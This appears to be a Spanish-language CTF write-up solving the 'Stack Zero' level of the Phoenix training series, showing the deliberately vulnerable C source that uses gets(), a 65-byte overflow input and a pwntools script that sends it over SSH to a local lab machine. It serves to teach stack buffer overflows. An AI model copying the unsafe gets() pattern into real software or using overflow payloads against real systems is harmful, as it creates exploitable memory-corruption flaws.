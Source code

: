 ```yaml
---
layout: single
title: "Stack Zero"
permalink: /pwn/phoenix/stack-zero/
parent: Phoenix
comments: true
excerpt: "Stack Zero"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

Este primer nivel introduce el concepto de **desbordamiento de buffer en la pila**. Aquí se muestra cómo es posible acceder a memoria fuera de la región asignada, comprendiendo la disposición de las variables en el stack y cómo una sobrescritura puede alterar el flujo del programa.

El programa define una estructura que contiene un buffer de 64 bytes seguido de una variable changeme. El uso de gets() hace posible escribir más datos de los esperados, sobrescribiendo memoria contigua.


```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

**Ejecución manual**

Primero probamos con un solo carácter:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
A
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```

Dado que el buffer tiene 64 bytes, si enviamos 65 caracteres lograremos sobrescribir la variable changeme:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*65'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

Enviamos este valor y vemos que realizamos el desbordamiento del buffer 

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
```

**Explotación con Pwntools**

Para automatizar el proceso creamos un script en Python con pwntools:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ #Define Las Varibles
   5   │ payload = b'A' * 65
   6   │ 
   7   │ # Se conecta al servidor por SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ # Ejecuta el programa remoto
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-zero'])
  12   │ 
  13   │ # Envía el payload 
  14   │ process.sendline(payload)
  15   │ 
  16   │ # captura la respuesta y la envía
  17   │ flag = process.recvall().decode()
  18   │ log.success("Output: " + flag)
  19   │ 
  20   │ # Cierra el proceso
  21   │ process.close()
  22   │ 
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 526
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-zero'!
[+] Receiving all data: Done (128B)
[*] Stopped remote process 'stack-zero' on localhost (pid 526)
[+] Output: Welcome to phoenix/stack-zero, brought to you by https://exploit.education
    Well done, the 'changeme' variable has been changed!
```

**Conclusión**

- Este reto muestra cómo un buffer overflow simple permite sobrescribir variables locales en la pila. Aunque no se logra ejecución de código arbitrario, es la base para comprender vulnerabilidades más complejas que se verán en los siguientes niveles de la serie Stack.